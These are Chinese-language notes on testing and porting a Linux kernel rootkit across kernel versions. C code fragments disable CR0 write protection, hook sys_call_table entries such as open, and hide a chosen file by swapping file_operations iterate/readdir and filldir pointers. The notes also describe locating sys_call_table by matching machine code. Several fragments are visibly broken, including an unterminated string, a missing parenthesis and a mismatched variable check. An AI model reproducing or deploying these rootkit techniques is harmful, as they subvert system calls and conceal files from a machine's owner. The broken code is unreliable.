







# Kernel-Rootkit测试

## 前置技术

### Linux kernel从inode结构得到文件路径

​		为了适应各种的文件系统格式，Linux使用虚拟文件系统VFS，VFS提供一组标准的抽象的的文件操作，以系统调用的形式提供给用户使用。

​		每个文件系统都有自己的`file_operations`结构，这里全是函数指针。

​		同时进程的`task_struct`中有一个`struct files_struct` 的files成员，记录了已经打开的文件的具体信息，`file_structs`的主体就是一个file结构体数组，进通过fd访问相应的文件。

## 测试一

### 问题一

​	这个问题在低版本内核上会直接导致操作系统重启，高版本内核因为其强大稳定性，显示出了报错信息，可以看到就是一个OOPS的错误。

~~~c
void
disable_wp(void)
{
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    clear_bit(X86_CR0_WP_BIT, &cr0);
    write_cr0(cr0);
    preempt_enable();

    return;
}
~~~

​	问题原因在于内核会检测wp bit是否被write_cr0()修改，如果被write_cr0修改的话就会报错。

### 解决方案

​	自己实现一个对cr0寄存器进行修改的函数：

~~~c
inline void mywrite_cr0(unsigned long cr0) {
  asm volatile("mov %0,%%cr0" : "+r"(cr0), "+m"(__force_order));
}

void enable_write_protection(void) {
  unsigned long cr0 = read_cr0();
  set_bit(16, &cr0);
  mywrite_cr0(cr0);
}

void disable_write_protection(void) {
  unsigned long cr0 = read_cr0();
  clear_bit(16, &cr0);
  mywrite_cr0(cr0);
}
~~~

### 问题二

​	对于syscall的修改好像不能够正常运行，在ubuntu 18.04上会出现异常情况：

可以看到open的系统调用确实被修改了，但是修改使得其无法正常使用，同时，可以正常使用的unlink功能也不太正常。在ubuntu 16.04 等较低内核版本上面，这会导致系统直接异常重启，同时在ubuntu 18.04上，rm功能异常：

​	出现上述问题的一个重要原因在于自内核4.17版本之后，Linux开始使用"syscall wrappers" 对系统调用进行封装，其实现由glibc提供，这就使得 ：

~~~c
	sys_call_table[__NR_open] points to __x64_sys_open (with prototype asmlinkage long __x64_sys_open(const struct pt_regs *regs)), which calls static function __se_sys_open (with prototype static long __se_sys_open(const __user *filename, int flags, umode_t mode)), which calls inline function __do_sys_open (with prototype static inline long __do_sys_open(const __user *filename, int flags, umode_t mode).
	Those will all be defined by the SYSCALL_DEFINE3(open, const char __user *, filename, int, flags, umode_t, mode) macro call in "fs/open.c" and the function body that follows the macro call.
	It seems the motivation is to only pass a pointer to pt_regs, instead of having a bunch of user-space values in registers down the call chain. (Perhaps to increase resistance to Spectre attacks by making gadgets less useful?)
~~~

大致意思就是，从4.17之后，内核使用libc封装了sys_call，然后就不能这样用了，还没有细致的看具体的原因。关于hookc之后虽然没效果，但是open等syscall还可以继续调用是因为这样：

~~~c
If OP is indeed using x86_64 kernel 4.17 or later, and replacing the sys_call_table[__NR_open] entry with a pointer to a function that uses a different prototype and calls the original function (pointed to by old_open) with the same parameters, that explains why the call to strncpy_from_user(user_msg, filename, sizeof(user_msg)) failed. Although declared as const char * __user filename, the filename pointer is actually pointing to the original struct pt_regs in kernel space.

In the subsequent call to old_open(filename, flags, mode), the first parameter filename is still pointing to the original struct pt_regs so the old function (which expects a single parameter of type struct pt_regs *) still works as expected.

i.e. the function passed on its first pointer arg unchanged, despite calling it a different type.
~~~

### 解决方案

​	在低版本上的解决方案在于对用户空间数据操作的修改，Linux 内核存在Smep保护机制使得内核代码在操作用户空间的数据的时候会触发页错误，但是我们的现象是一直强制重启，因此在没有关闭smep进行测试的前提下，该论点并不确定。但是肯定的是，导致强制重启的原因是操作了用户空间的数据。

以fake_open为例子，修改前的代码：

~~~c
asmlinkage long
fake_open(const char __user *filename, int flags, umode_t mode)
{
    fm_alert("the fake_open is begin!n\n");
    if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) { // 操作用户空间数据
        fm_alert("open: %s\n", filename); // 操作用户空间数据
    }

    return real_open(filename, flags, mode);
}
~~~

修改后的代码：

~~~c
asmlinkage long
fake_open(const char __user *filename, int flags, umode_t mode)
{
    char *buf = (char *)kmalloc(1024, GFP_KERNEL);
    copy_from_user(buf, filename, 1024);
    fm_alert("the fake_open is begin!n\n");
    if ((flags & O_CREAT) && strcmp(buf, "/dev/null") != 0) {
        fm_alert("open: %s\n", buf);
    }
    long ret =  real_open(buf, flags, mode);
    kfree(buf);
    return ret;
}
~~~

### 问题三

​	对于文件隐藏来说，通过代码中的方式貌似在kernel 4.15及其高版本上无法运行成功：

主要代码：

~~~c
# define ROOT_PATH "/"
# define SECRET_FILE "032416_525.mp4
# define set_file_op(op, path, new, old)                            \
    do {                                                            \
        struct file *filp;                                          \
        struct file_operations *f_op;                               \
                                                                    \
        fm_alert("Opening the path: %s.\n", path);                  \
        filp = filp_open(path, O_RDONLY, 0);                        \
        if (IS_ERR(filp)) {                                         \
            fm_alert("Failed to open %s with error %ld.\n",         \
                     path, PTR_ERR(filp));                          \
            old = NULL;                                             \
        } else {                                                    \
            fm_alert("Succeeded in opening: %s\n", path);           \
            f_op = (struct file_operations *)filp->f_op;            \
            old = f_op->op;                                         \
                                                                    \
            fm_alert("Changing file_op->" #op " from %p to %p.\n",  \
                     old, new);                                     \
            disable_wp();                             \
            f_op->op = new;                                         \
            enable_wp();                              \
        }                                                           \
    } while (0
set_file_op(iterate, ROOT_PATH, fake_iterate, real_iterate);
int
fake_iterate(struct file *filp, struct dir_context *ctx)
{
    real_filldir = ctx->actor;
    fm_alert("real_filldir is %p", real_filldir);
    *(filldir_t *)&ctx->actor = fake_filldir;
    fm_alert("fake_filldir is %p", fake_filldir);
    return real_iterate(filp, ctx);
}

int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    fm_alert("getting: %s", name);
    if (strcmp(name, SECRET_FILE) == 0) {
        fm_alert("Hiding: %s", name);
        return 0;
    }    
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
~~~

### 问题四：低版本不存在iterate结构体成员

​	高低版本的适配问题，在EulerOS上因为使用3.10的Linux内核，所以在编译时导致报错，因为代码中的`struct file_operations ` 结构体中并不包含`iterate`成员。

### 解决方案

​	通过看3.10的内核源码可以发现，其实存在一个相似的函数指针成员readdir,他实现了类似iterate成员的功能：

~~~c
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*aio_read) (struct kiocb *, const struct iovec *, unsigned long, loff_t);
	ssize_t (*aio_write) (struct kiocb *, const struct iovec *, unsigned long, loff_t);
	int (*readdir) (struct file *, void *, filldir_t);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*aio_fsync) (struct kiocb *, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	int (*show_fdinfo)(struct seq_file *m, struct file *f);
};
~~~

本来在高版本内核上面的filldir_t是封装到`struct dir_context`结构体上面的，但是在3.10里面是没有这一层的封装的，因此就更容易拿到相关的函数地址进行替换。

修改后的简略代码：

~~~c
int
(*real_filldir)(struct dir_context *ctx,
                const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type);
int 
fake_readdir(struct file *filp, void *ctx, filldir_t filldir);
int
(*real_readdir)(struct file *filp, void *ctx, filldir_t filldir);

int
fake_filldir(void *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type);
int
init_module(void)
{
    fm_alert("%s\n", "Greetings the World!");

    set_file_op(readdir, ROOT_PATH, fake_readdir, real_readdir);
    if (!real_iterate) {
        return -ENOENT;
    }

    return 0;
}
~~~

### 问题五：C代码结构体编译

​	

有时候内核模块会爆这样的错误导致手足无措，因为你看代码逻辑是没有任何问题的，但是他运行的时候无法索引到符号，这其实是C语言的锅，就比如下面的代码：

~~~c
int
fake_iterate(struct file *filp, struct dir_context *ctx);
int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
~~~

因为在编译的过程中，对于C语言编译器来说 `struct XXX *` 结构体其实就是一个void指针，只要没有用到该结构体的性质，C编译器就会编译通过

///////////// 未完，具体问题还是要看代码。

### 问题五：内核代码更新导致特征机器码不存在

在最初的内核代码中，对`entry_SYSCALL_64`进行反汇编拿到的结果中，是这种直接call调用的形式，但是在源码进行了更新之后

不仅函数名称变为system_call，而且调用方式也发生了变化。

### 解决方案

​	使用 新的机器码进行匹配拿到sys_call_table的地址。

​	还有一个可能比较疑惑 的点在于如何对内核函数进行反汇编，这里采用的是使用vmlinux-to-elf工具使得bzImage转变为elf，然后是用ida进行反汇编。

